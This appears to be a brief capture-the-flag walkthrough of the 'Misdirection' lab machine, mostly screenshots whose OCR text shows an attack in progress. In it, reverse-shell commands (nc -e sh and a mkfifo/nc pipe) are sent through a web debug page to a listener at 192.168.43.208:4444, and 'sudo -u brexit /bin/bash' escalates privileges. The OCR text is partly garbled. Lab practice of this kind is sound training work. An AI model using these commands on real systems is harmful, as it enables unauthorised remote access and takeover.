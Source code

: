 # *Misdirection*
22 June 2022
11:02 AM

<img src="Misdirection/media/image1.png" style="width:6.29167in;height:2.88333in" />

<img src="Misdirection/media/image2.png" style="width:6.25833in;height:3.175in" />

<img src="Misdirection/media/image3.png" style="width:6.3in;height:4.05in" alt="a 192.168.43.213:8080/debug/ jer - wv.. Lid Privilege Escalation. GTFOBins BasicLinuxPrivi1egeE... whonai sh: 1: whomai: not found online - Reverse Shell BeyondSQLi:Obfusca... GitHub - bonsaiviking/... cd whoami pouny@shetl data pouny@shetl : nc: invalid usage: nc ( nc: invalid usage: nc &gt;/tmp/f whereis nc nc: /bin/nc .openbsd /bin/nc /usr/share/man/manl/nc.l.gz -/htmt/debug# nc -e sh 192.168.43.208 4444 option - .46CDdFhklNnrSt1JuvZzJ 1.1 length] [-i intervall I-M ttl] (-m minttll [-0 length) [-P proxy _ username) I-p source_portl I-q seconds) I •s source] keyword] [•V rtablel [•W recvlimitl timeout I I-X proxy. protocol) proxy _ address( (destination] [portl nc •c sh 192.168.43.208 4444 option - .46CDdFhkU1nrStUuvZzl length] intervall I-M minttl] [-0 length) I-p proxy username) I-p source_portl (-q seconds) I-s source) I-T keyw6rdl [-v rtable] [-w recvUmitl [-w timeout) (•X proxy_protocoll (destination] (portl rrn /tmp/f;mkfifo /tmp/f;cat /tmp/tlsh -i 192.168.43.208 4444 " />

<img src="Misdirection/media/image4.png" style="width:6.20833in;height:2.3in" alt="(kaliS $ nc -nvlp listening on [any] 4444 . connect to [192.168.43.208] from (UNKNOWN) [192.168.43.213] 50192 sh: O: can&#39;t access tty; job control turned off $ whomai sh: 1 : whomai: not found $ whoami vwm-data " />

<img src="Misdirection/media/image5.png" style="width:6.19167in;height:1.76667in" alt="mw-dataömisdirection: /home$ sudo -l Matching Defaults entries for mwv-data on localhost: env_reset, mail_badpass, ocal/sbin\ : /usr/local/bin\ : /usr/sbin\ : /usr/bin\ : /sbin\ : /bin\ : /snap/bin User mw-data may run the following commands on localhost: (brexit) NOPASSWD: /bin/bash mw-dataamisdirection: /home$ sudo -u brexit /bin/bash brexitamisdirection:/home$ id brexitä)misdirection : /home$ " />

<img src="Misdirection/media/image6.png" style="width:5.99167in;height:3.55in" />

<img src="Misdirection/media/image7.png" style="width:5.825in;height:2.79167in" />

<img src="Misdirection/media/image8.png" style="width:5.08333in;height:1.375in" />
